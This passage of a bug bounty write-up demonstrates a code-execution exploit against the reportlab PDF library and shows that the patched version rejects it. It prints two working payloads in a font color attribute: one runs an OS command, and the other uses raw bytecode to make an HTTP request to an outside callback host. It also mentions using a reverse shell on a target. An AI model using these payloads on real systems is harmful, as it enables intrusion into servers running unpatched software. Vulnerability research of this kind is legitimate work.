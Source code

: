 
![image](https://github.com/Sudistark/BB-Writeups/assets/31372554/4f8cdcac-9024-4618-9be3-59b9207d2cb0)

You could see the exploit works in reportlab v3.6.12

Let's see now what happens in the fixed version:

![image](https://github.com/Sudistark/BB-Writeups/assets/31372554/9a10825c-c124-4bda-8729-3f2fff754291)

Saw the error? The exploit failed


```python
  File "/home/runner/VelvetyFuchsiaCompiler/venv/lib/python3.10/site-packages/reportlab/lib/colors.py", line 931, in __call__
    raise ValueError('Invalid color value %r' % arg)
ValueError: 
paragraph text '<para> <font color="[ [ getattr(pow,Word(\'__globals__\'))[\'os\'].system(\'touch /tmp/exploited\') for Word in [orgTypeFun(\'Word\', (str,), { \'mutated\': 1, \'startswith\': lambda self, x: False, \'__eq__\': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, \'mutate\': lambda self: {setattr(self, \'mutated\', self.mutated - 1)}, \'__hash__\': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and \'red\'"> exploit </font> </para>' caused exception Invalid color value "[ [ getattr(pow,Word('__globals__'))['os'].system('touch /tmp/exploited') for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))] ] and 'red'"
```


In case of old version no error is triggered and in fixed version upon using the same payload an error is triggered.

When I used the same poc in my target no error was shown pdf was generated successfully, which indicated that they are indeed using vulnerable version otherwise an error should have shown.

Recently upon collaborating with @rootxharsh, he had a similar scenario where  curl,wget,ping didn't worked so it was concluded that the headless chrome process might be running with sandbox enabled but infact later when @iamnoooob checked the same, he used a reverse shell  and a callback was recieved successfully in no time. So when Harsh checked the shell  to confirm why those curl,wget,ping didn't worked he found that curl,wget,ping didn't existed on that box . Shit happens!!

As in my case also curl,etc didn't worked, I thought why not try using python requests module instead. 



```python
<font color="[ [ [ [ ftype(ctype(0, 0, 0, 0, 3, 67, b't\\x00d\\x01\\x83\\x01\\xa0\\x01d\\x02\\xa1\\x01\\x01\\x00d\\x00S\\x00', (None, 'requests', 'https://myhost'), ('__import__','get'), (), '<stdin>', '', 1, b'\\x12\\x01'), {})() for ftype in [type(lambda: None)] ] for ctype in [type(getattr(lambda: {None}, Word('__code__')))] ] for Word in [orgTypeFun('Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: False, '__eq__': lambda self,x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: {setattr(self, 'mutated', self.mutated - 1)}, '__hash__': lambda self: hash(str(self)) })] ] for orgTypeFun in [type(type(1))]] and 'red'">exploit</font>
```

I replaced only this part:
https://security.snyk.io/vuln/SNYK-PYTHON-REPORTLAB-5664897
